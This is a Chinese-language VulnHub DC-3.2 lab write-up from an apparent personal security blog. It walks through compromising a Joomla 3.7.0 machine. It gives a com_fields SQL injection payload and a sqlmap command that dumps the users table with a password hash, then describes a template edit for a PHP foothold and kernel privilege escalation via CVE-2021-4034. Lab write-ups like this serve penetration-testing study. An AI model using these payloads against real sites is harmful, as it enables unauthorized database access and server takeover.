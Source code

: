 +++
title = '0x024 DC 3.2'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



开机遇到报错，修改以下配置：

![](/vulnhub_img/WEBRESOURCE4cd164de68cafa73ead52528439ebda6截图.png)

# 端口扫描

![](/vulnhub_img/WEBRESOURCEc724cd1c56a1136f76aef7ed843bc672截图.png)

![](/vulnhub_img/WEBRESOURCE936ff0c59005305217e93f18889523ef截图.png)

# 渗透

![](/vulnhub_img/WEBRESOURCEe03763fdd8beb0e52b175e5097d00217截图.png)

使用joomale cms，通过joomla扫描发现版本和组件，可能存在已知漏洞：

joomscan.pl扫描结果，版本号为3.7.0

![](/vulnhub_img/WEBRESOURCEadd720ccfc02d6865b640a40a1c3d915截图.png)

JoomlaScan扫描结果，以下为相关组件：

![](/vulnhub_img/WEBRESOURCE1a265df724d312d3851b0e701efab813截图.png)

POC如下：

/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(1,concat(0x3e,user()),0)

![](/vulnhub_img/WEBRESOURCE22b3fac5c697ab4833d62cd183a19882截图.png)

sqlmap查账号密码，过程非常复杂，贴上最后的命令：

```
sqlmap -u "http://192.168.1.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=xxx" -D joomladb -T '#__users' -C name,email,id,params,password,username --dump
```

![](/vulnhub_img/WEBRESOURCE23bd1c50cc4d1fd1d621d2abe8aef309截图.png)

admin  | freddy@norealaddress.net | 629 | {"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""} | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu | admin

查询cmd5网站：

付费记录：

![](/vulnhub_img/WEBRESOURCEd66874bd5bc5c4ef2a4254136e2df059截图.png)

john默认字典就跑出来了，就这还想要我的钱？

![](/vulnhub_img/WEBRESOURCE35902ccbbe3e3a0dea4a732d5ff1d18e截图.png)

修改模板：

![](/vulnhub_img/WEBRESOURCE5843a4d128f3583d5e934dbc1ba05f42截图.png)

但是这里不知道为啥，访问error.php访问不到，我直接改了index.php，然后访问主页就可以了，实战建议自己添加一个php文件：

![](/vulnhub_img/WEBRESOURCE90aa0d2e451366346e5467dbcc84d028截图.png)

# 提权：

有GCC，可以考虑内核提权：

小插曲，内核提权有风险，机器打崩了

这脏牛就没成功过，离谱：

![](/vulnhub_img/WEBRESOURCEe6ab3817b26b881ff584c4312bfe5ee2截图.png)

2021-4034是真的好用：

![](/vulnhub_img/WEBRESOURCEdbe123b2aa2919afa1c94e8aecfb578c截图.png)

![](/vulnhub_img/WEBRESOURCEe15544377e89ac3397ee734f7e9b8c06截图.png)